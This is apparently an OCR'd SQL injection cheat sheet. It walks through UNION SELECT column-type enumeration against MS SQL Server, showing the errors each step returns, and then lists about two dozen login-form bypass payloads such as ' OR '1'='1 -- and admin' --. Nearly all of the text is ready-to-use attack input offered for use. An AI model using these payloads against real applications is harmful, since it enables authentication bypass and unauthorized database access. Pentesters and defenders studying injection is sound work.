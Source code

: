 ```sql
11223344) UNION SELECT NULL,NULL,NULL,NULL WHERE 1=2 –-
No error—the syntax is correct and MS SQL Server is used. Proceeding.
```

```sql
11223344) UNION SELECT 1,NULL,NULL,NULL WHERE 1=2 –-
No error—we now know the first column is an integer.
```

```sql
11223344) UNION SELECT 1,2,NULL,NULL WHERE 1=2 --
Microsoft OLE DB Provider for SQL Server error '80040e07'
Explicit conversion from data type int to image is not allowed.
Error! The second column is not an integer.
```

```sql
11223344) UNION SELECT 1,'2',NULL,NULL WHERE 1=2 –-
No error—the second column is a string.
```

```sql
11223344) UNION SELECT 1,'2',3,NULL WHERE 1=2 –-
Error! The third column is not an integer…
```

Rinse and repeat until you have all the column types mapped out.

## login forms injection

```sql
  ' OR '1'='1 --
  ' OR '1'='1'-- -
  ' OR 1=1 LIMIT 1-- -
  ' OR '1'='1' --
  ' OR 1=1 --
  " OR 1=1 --
  ' OR '1'='1'/\*
admin' --
admin' OR '1'='1'#
admin')-- -
admin' --
admin' #
admin'/\*
admin'--
admin' or '1'='1
admin' or true--
admin') or ('1'='1-- -
admin") or ("1"="1"-- -
  ' or true--
  ' or 1=1--
  ' or 1=1#
  ' or 1=1/*
  ' or 1=1 LIMIT 1-- -
  ' or 'a'='a
  ' OR 1=1#
  ' OR ''='
```
